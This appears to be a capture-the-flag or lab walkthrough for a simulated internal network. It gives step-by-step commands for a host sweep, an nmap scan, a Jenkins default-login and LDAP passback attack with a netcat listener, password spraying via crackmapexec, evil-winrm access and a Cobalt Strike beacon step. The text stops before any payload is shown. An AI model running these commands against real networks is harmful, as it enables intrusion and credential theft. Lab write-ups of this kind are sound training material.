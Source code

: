 ***DO NOT USE THIS DOCUMENT AS IS***
1. download this markdown file, and open it in [Obisidan](https://obsidian.md)
2. in Settings → Core Plugins, enable Outline, then run "Outline: Show Outline" in the command palette
     - Now you can quickly jump to a particular section by clicking its heading in the outline.
3. in Settings → Community plugins → Browse, find and install "Copy Inline Code"
     - Now you can copy any command by clicking on the end of it.
4. enter "reading" view by clicking the book in the top-right (by default)
     - Now you can see commands for linked sections by hovering over them.
## Flag 1

#### 1. Discovering Live Hosts
Run the following loop to identify live hosts in the subnet:

```bash
for i in {1..254} ; do (ping -c 1 10.10.2.$i | grep "bytes from" &) ; done
```
- **Result**: You will find `10.10.2.239` is alive.

#### 2. Scanning the Jenkins Server
Perform an nmap scan to identify open ports and services:

```bash
nmap --min-rate 5000 -sC -sV 10.10.2.239
```
- **Result**: Port `8080` with Jenkins server open.

#### 3. Exploiting Jenkins Server
Log in to Jenkins using default credentials `admin:admin`. Modify the pipeline to change the LDAP server IP address and port. Start a listener on your machine:

```bash
nc <your-ip> <port>
```

Run the pipeline to capture plain text credentials via a passback attack:

- **Credentials Obtained**: `svc-ldap:LdapServiceJenkins12`

#### 4. Password Spraying
Spray the obtained password across the subnet:

```bash
crackmapexec winrm 10.10.2.0/24 -u svc-ldap -p 'LdapServiceJenkins12' --continue-on-success
```
- **Result**: Success on `10.10.2.240`.

#### 5. Establishing Connection
Use `evil-winrm` to log in:

```bash
evil-winrm -i 10.10.2.240 -u svc-ldap -p 'LdapServiceJenkins12'
```

#### 6. Executing PowerShell Payload
Encrypt the payload and execute it to get a beacon on the Cobalt Strike team server:
